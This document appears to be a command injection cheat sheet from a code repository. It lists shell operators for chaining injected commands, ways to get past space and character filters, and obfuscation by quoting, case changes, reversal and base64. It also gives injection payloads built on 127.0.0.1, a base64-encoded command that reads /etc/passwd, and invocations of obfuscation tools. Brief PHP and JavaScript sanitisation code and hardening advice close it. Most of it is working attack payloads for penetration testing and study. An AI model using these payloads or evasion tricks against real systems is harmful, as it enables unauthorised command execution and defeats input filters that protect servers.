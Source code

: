 # Command Injection Cheat Sheet

## Command Injection Operators

| Operator | Symbol | URL-Encoded | Description |
|----------|---------|-------------|-------------|
| Semicolon | `;` | `%3b` | Executes both commands |
| New Line | `\n` | `%0a` | Executes both commands |
| Background | `&` | `%26` | Executes both (second output shown first) |
| Pipe | `\|` | `%7c` | Executes both (only second output shown) |
| AND | `&&` | `%26%26` | Second executes only if first succeeds |
| OR | `\|\|` | `%7c%7c` | Second executes only if first fails |
| Sub-Shell | `` ` ` `` | `%60%60` | Executes both (Linux-only) |
| Sub-Shell | `$()` | `%24%28%29` | Executes both (Linux-only) |

## Space Character Bypasses

| Method | Example | Description |
|---------|---------|-------------|
| Tab | `%09` | Use tab instead of space |
| IFS Variable | `${IFS}` | Linux environment variable |
| Brace Expansion | `{ls,-la}` | Bash feature that adds spaces |

## Character Generation Techniques

### Linux Environment Variables
```bash
# Generate slash character
${PATH:0:1}           # Extracts first character from PATH

# Generate semicolon
${LS_COLORS:10:1}     # Extracts semicolon from LS_COLORS
```

### Windows Environment Variables
```cmd
# Generate backslash (CMD)
%HOMEPATH:~6,-11%

# Generate backslash (PowerShell)
$env:HOMEPATH[0]
```

### Character Shifting
```bash
# Shift ASCII character by 1
echo $(tr '!-}' '"-~'<<<[)  # Produces backslash
```

## Command Obfuscation Techniques

### Quote Insertion
```bash
# Single quotes
w'h'o'am'i

# Double quotes
w"h"o"am"i
```

### Linux-Specific Characters
```bash
# Backslash insertion
w\ho\am\i

# Positional parameter
who$@ami
```

### Windows-Specific Characters
```cmd
# Caret insertion
who^ami
```

### Case Manipulation
```bash
# Linux case conversion
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

# Alternative Linux method
$(a="WhOaMi";printf %s "${a,,}")
```

```powershell
# Windows (case-insensitive)
WhOaMi
```

### Reversed Commands
```bash
# Linux
echo 'whoami' | rev                    # Get reversed string
$(rev<<<'imaohw')                      # Execute reversed command
```

```powershell
# Windows
"whoami"[-1..-20] -join ''             # Reverse string
iex "$('imaohw'[-1..-20] -join '')"    # Execute reversed
```

### Base64 Encoding
```bash
# Linux encoding
echo -n 'cat /etc/passwd' | base64

# Linux execution
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

```powershell
# Windows encoding
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

# Windows execution
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```

## Detection Payloads

### Basic Tests
```bash
127.0.0.1; whoami
127.0.0.1 && whoami
127.0.0.1 || whoami
127.0.0.1 | whoami
```

### Filter Bypass Examples
```bash
# Using newline and tab
127.0.0.1%0a%09whoami

# Using IFS variable
127.0.0.1%0a${IFS}whoami

# Using environment variable for semicolon
127.0.0.1${LS_COLORS:10:1}${IFS}whoami
```

## Automated Tools

### Bashfuscator (Linux)
```bash
./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
```

### DOSfuscation (Windows)
```powershell
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation
SET COMMAND <your_command>
encoding
```

## Prevention Methods

### Input Validation (PHP)
```php
if (filter_var($_GET['ip'], FILTER_VALIDATE_IP)) {
    // proceed
} else {
    // deny
}
```

### Input Sanitization (PHP)
```php
$ip = preg_replace('/[^A-Za-z0-9.]/', '', $_GET['ip']);
```

### Input Sanitization (JavaScript)
```javascript
var ip = ip.replace(/[^A-Za-z0-9.]/g, '');
```

## Server Hardening

- Use Web Application Firewalls (WAF)
- Run web server as low-privilege user (www-data)
- Disable dangerous functions (disable_functions=system,exec,...)
- Limit scope with open_basedir
- Reject double-encoded requests and non-ASCII URLs
